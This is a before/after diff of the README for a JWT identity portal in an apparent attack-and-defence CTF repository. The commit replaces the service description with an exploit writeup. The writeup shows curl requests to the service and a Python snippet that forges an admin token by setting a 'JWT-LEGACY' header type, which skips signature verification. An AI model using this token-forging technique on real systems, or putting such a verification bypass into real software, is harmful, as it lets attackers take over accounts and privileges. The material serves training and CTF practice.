

Before and after one commit to unclePRO/hns-web-services, a Markdown page: jwt_auth/README.md, the part around one of its changes. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/jwt_auth/README.md
+++ b/jwt_auth/README.md
@@ -1,54 +1,48 @@
-# JWT Identity Portal - Hack & Shield A&D Challenge
+# Service 8 — JWT Identity Portal: Writeup
 
-## Service Description
-The **Internal Auth API** (`v1.5.0`) is a simulated corporate Single Sign-On (SSO) dashboard that issues and validates JSON Web Tokens (JWT) for internal microservices.
-
-**The Vulnerability:** The service contains a **Header-Triggered Signature Verification Bypass** combined with **Multi-Claim Privilege Escalation**. By default, all tokens with a standard `"typ": "JWT"` header undergo strict `HS256` cryptographic verification. However, a legacy SSO compatibility branch inside `build_decode_options()` disables signature verification when `mode="portal"` and the token header specifies `"typ": "JWT-LEGACY"`.
-
-## What to Expect (Service Flow)
-When the service is running, it exposes the following endpoints:
-* `GET /api/token` - Issues a signed employee JWT (`role: "employee"`, `clearance: 1`, `aud: "employee-portal"`).
-* `GET /api/verify` - Strictly validates a token's signature and returns its decoded payload.
-* `GET /api/admin/flag` - Protected administrative endpoint requiring a Bearer token that passes both `decode_portal_token()` and `validate_admin_claims()`.
-* `GET /api/admin/` - Web UI portal equivalent for submitting administrative tokens.
-
-## Local Setup & Deployment
-Run these commands from the project root to start the service:
-
-```bash
-python3 -m venv .venv
-source .venv/bin/activate
-pip install -r requirements.txt
-python app.py
-```
-*The service listens on `http://127.0.0.1:5001`.*
+## 1. Service Number and Name
+**Service 8 — Internal Auth API** (JWT Identity Portal)
+A simulated corporate SSO portal that issues and validates JSON Web
+Tokens (JWTs) for internal microservices, running on port `8008`.
 
 ---
 
-## Attack Phase (Red Team) — Conceptual Walkthrough
-The goal of the Red Team is to analyze the authentication logic, identify how legacy tokens are processed, and satisfy the administrative claim checks to retrieve the flag.
+## 2. How to Exploit It — Step by Step
 
-### Step 1: Endpoint & Token Reconnaissance
-Inspect the service endpoints via `/api/help` and request a baseline token from `/api/token`. Decoding a standard employee token reveals the baseline structure:
-
-**Standard Header:**
+**Step 1 — Get a baseline token**
+```bash
+curl -s http://<target>:8008/api/token | jq
+```
+Decode it (jwt.io or any JWT decoder) and look at the header and payload:
 ```json
-{
-  "alg": "HS256",
-  "typ": "JWT"
-}
+// header
+{ "alg": "HS256", "typ": "JWT" }
+// payload
+{ "sub": "employee_01", "role": "employee", "clearance": 1,
+  "iss": "Internal Auth API", "aud": "employee-portal", "exp": ... }
 ```
 
-**Standard Payload:**
-```json
-{
-  "sub": "employee_01",
-  "role": "employee",
-  "clearance": 1,
-  "iss": "Internal Auth API",
-  "aud": "employee-portal",
-  "iat": 1730000000,
-  "exp": 1730007200
+**Step 2 — Confirm the obvious attempt fails**
+```bash
+EMP=$(curl -s http://<target>:8008/api/token | jq -r .token)
+curl -s -H "Authorization: Bearer $EMP" http://<target>:8008/api/admin/flag
+```
+→ `403 Insufficient privileges`. A normal employee token, even with a signature that checks out, doesn't have `role: admin`.
+
+**Step 3 — Forge an admin token with a different header `typ`**
+```bash
+python3 - <<'EOF'
+import jwt, time
+payload = {
+    "sub": "admin_user",
+    "role": "admin",
+    "clearance": 5,
+    "iss": "Internal Auth API",
+    "aud": "internal-admin",
+    "exp": int(time.time()) + 999999999,
 }
+headers = {"typ": "JWT-LEGACY", "alg": "HS256"}
+print(jwt.encode(payload, "any-key-you-like", algorithm="HS256", headers=headers))
+EOF
 ```
 
````
Also changed, not shown: other parts of jwt_auth/README.md (+38 -63 lines), nosql/README.md (+82 -113 lines).
